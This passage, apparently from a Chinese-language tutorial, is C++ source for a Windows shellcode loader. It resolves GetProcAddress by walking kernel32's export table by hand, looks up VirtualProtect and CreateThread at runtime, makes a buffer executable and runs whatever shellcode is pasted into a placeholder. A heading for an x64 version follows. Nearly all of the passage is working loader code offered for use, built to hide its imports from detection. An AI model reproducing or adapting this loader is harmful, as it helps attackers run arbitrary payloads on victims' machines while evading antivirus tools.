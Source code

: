 ```cpp
            pFinded++; pSrc++;
        }
        if (*pFinded == *pSrc)
        {
            result = (DWORD)Kernel32Base + pAddOfFun_Raw[pAddOfOrd_Raw[dwCnt]];
            break;
        }
        pSrc = szGetProcAddr;
    }
    return result;
}


int main() {
    unsigned char buf[] = "填写x86的shellcode";

    HMODULE hKernal32 = GetKernel32Moudle(); // 获取Kernel32模块的地址
    p_GetProcAddress GetProcAddress = (p_GetProcAddress)pGetProcAddress(hKernal32); // 获取GetProcAddress函数的地址
    p_VirtualProtect VirtualProtect = (p_VirtualProtect)GetProcAddress(hKernal32, "VirtualProtect");  //获取VirtualProtect函数地址
    p_CreateThread CreateThread = (p_CreateThread)GetProcAddress(hKernal32, "CreateThread");  //获取CreateThread函数地址
    p_WaitForSingleObject WaitForSingleObject = (p_WaitForSingleObject)GetProcAddress(hKernal32, "WaitForSingleObject");  //获取WaitForSingleObject函数地址

    DWORD oldProtect;
    VirtualProtect((LPVOID)buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)(LPVOID)buf, NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```



## x64代码实现

由于x64无法编写内联汇编代码, 因此需另创一个asm文件来进行编写
